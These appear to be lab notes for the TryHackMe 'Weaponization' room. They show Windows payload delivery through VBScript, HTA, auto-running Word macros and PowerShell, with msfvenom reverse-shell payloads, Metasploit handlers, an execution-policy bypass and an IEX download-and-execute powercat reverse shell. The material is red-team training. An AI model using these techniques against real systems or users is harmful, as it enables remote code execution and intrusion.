




# Weaponization

```jsx
Room Link: [https://tryhackme.com/room/weaponization](https://tryhackme.com/room/weaponization)
```

For more information about red team toolkits, please visit the following: a ***[GitHub repository***](https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development) that has it all, including initial access, payload development, delivery methods, and others.

Most organizations block or monitor the execution of .exe files
 within their controlled environment. For that reason, red teamers rely 
on executing payloads using other techniques, such as built-in windows 
scripting technologies. Therefore, this task focuses on various popular 
and effective scripting techniques, including:

- The Windows Script Host (WSH)
- An HTML Application (HTA)
- Visual Basic Applications (VBA)
- PowerShell (PSH)

### Windows Machine

#### Taking RDP

```jsx
           
user@machine$ xfreerdp /v:10.145.148.59 /u:thm /p:TryHackM3 +clipboard
```



**Windows Scripting Host (WSH)**

Simple vbs script

```jsx
Dim message
message = "Welcome to hack"
MsgBox message
```



VBScript to run executable files.

```jsx
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

Run it via

To execute the vbs file, we can run it using the wscript as follows also We can also run it via cscript as follows

```jsx
           
c:\Windows\System32>wscript c:\Users\thm\Desktop\payload.vbs 
           
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs

```



Another trick. If the VBS files are **blacklisted**, then we can **rename** the file to .**txt** file and run it using wscript as follows,

```jsx
           
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt 
```

**An HTML Application (HTA)**

The LOLBINS (Living-of-the-land Binaries) tool **mshta** is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.

In the following example, we will use an [ActiveXObject (opens in new tab)](https://en.wikipedia.org/wiki/ActiveX) in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.(On Attack Machine)

```jsx
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>

```

This code saved in payload.hta in out Attack machine then,

Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,

```jsx
           
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)

```

On the victim machine, visit the malicious link using Microsoft Edge, http://10.8.232.37:8090/payload.hta. Note that the 10.8.232.37 is the AttackBox's IP address.



**HTA Reverse Connection**

We can create a reverse shell payload as follows,

Terminal

```bash

user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
```

On the attacking machine, we need to listen to the port 443 using nc. Please note this port needs root privileges to open, or you can use different ones.

Once the victim visits the malicious URL and hits run, we get the connection back.

Terminal

```bash

user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
```


**Malicious HTA via Metasploit**

First, run the Metasploit framework using msfconsole ****-q command. Under the exploit section, there is **exploit/windows/misc/hta_server**, which requires selecting and setting information such as LHOST, LPORT, SRVHOST, Payload, and finally, executing **exploit** to run the module.

Terminal

```bash

msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```

On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.

**Visual Basic for Application (VBA)**

Now create a new blank Microsoft document to create our first macro. The goal is to discuss the basics of the language and show how to run it when a Microsoft Word document gets opened. First, we need to open the Visual Basic Editor by selecting view → macros. The Macros window shows to create our own macro within the document.


In the Macro name section, we choose to name our macro as . Note that we need to select from the Macros in list Document1 and finally select create. Next, the Microsoft Visual Basic for Application editor shows where we can write VBA code. Let's try to show a message box with the following message: Welcome to Weaponization Room!. We can do that using the MsgBox function as follows:

```jsx
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
```

Finally, run the macro by F5 or Run → Run Sub/UserForm.

Now in order to execute the VBA code automatically once the document gets opened, we can use built-in functions such as AutoOpen and Document_open. Note that we need to specify the function name that needs to be run once the document opens, which in our case, is the THM function.

```jsx
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```

It is important to note that to make the macro work, we need to save it in Macro-Enabled format such as .doc and docm. Now let's save the file as Word 97-2003 Template where the Macro is enabled by going to File → save Document1 and save as type → Word 97-2003 Document and finally, save.


 Microsoft Word will show a security message indicating that Macros have been disabled


Once we allowed the Enable Content, our macro gets executed as shown,


Now edit the word document and create a macro function that executes a **calc.exe** or any executable file as proof of concept as follows,

```jsx
Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```


Now let's create an in-memory meterpreter payload using the Metasploit 
framework to receive a reverse shell. First, from the AttackBox, we 
create our meterpreter payload using msfvenom. We need to specify the Payload, LHOST, and LPORT, which match what is in the Metasploit framework. Note that we specify the payload as VBA to use it as a macro.

Terminal

```bash

user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes
```

The value of the LHOST in the above terminal is an example of AttackBox's IP address that we used. In your case, you need to specify the IP address of your AttackBox.

**Import to note**
 that one modification needs to be done to make this work.  The output 
will be working on an MS excel sheet. Therefore, change the Workbook_Open() to Document_Open() to make it suitable for MS word documents.

Now copy the output and save it into the macro editor of the MS word document, as we showed previously.

From the attacking machine, run the Metasploit framework and set the listener as follows:

Terminal

```bash

user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.50.159.15:443
```

Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.

Terminal

```bash

msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.50.159.15:443
[*] Sending stage (176195 bytes) to 10.10.215.43
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209) at 2021-12-13 10:46:05 +0000
meterpreter >
```

Now replicate and apply what we discussed to get a reverse shell!

 ****

**PowerShell(PSH)**

```powershell
Write-Output "Welcome to the Weaponization Room!"
```

Save the file as

.ps1. With the Write-Output, we print the message "Welcome to the Weaponization Room!" to the command prompt. Now let's run it and see the result.

CMD

```bash

C:\Users\thm\Desktop>powershell -File thm.ps1
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess

C:\Users\thm\Desktop>
```

# Execution Policy

PowerShell's execution policy is a **security option** to protect the system from running malicious scripts. By default, Microsoft disables executing PowerShell scripts .ps1 for security purposes. The PowerShell execution policy is set to Restricted, which means it permits individual commands but not run any scripts.

You can determine the current PowerShell setting of your Windows as follows,

CMD

```bash

PS C:\Users\thm> Get-ExecutionPolicy
Restricted
```

We can also easily change the PowerShell execution policy by running:

CMD

```bash

PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes [A] Yes to All [N] No [L] No to All [S] Suspend [?] Help (default is "N"): A
```

**Bypass Execution Policy**

CMD

```bash

C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!
```

Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.

Terminal

```bash

			user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.
```

Now, we need to set up a web server on that AttackBox to serve the powercat.ps1 that
 will be downloaded and executed on the lab machine. Next, change the 
directory to powercat and start listening on a port of your choice. In 
our case, we will be using port 8080.

Terminal

```bash

			user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On the AttackBox, we need to listen on port 1337 using nc to receive the connection back from the victim.

Terminal

```bash

			user@machine$ nc -lvp 1337
```

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,

Terminal

```bash

			C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

Now that we have executed the command above, the victim machine downloads the powercat.ps1  payload from our web server (on the AttackBox) and then executes it locally on the target using cmd.exe and sends a connection back to the AttackBox that is listening on port 1337. After a couple of seconds, we should receive the connection call back:

Terminal

```bash

			user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>
```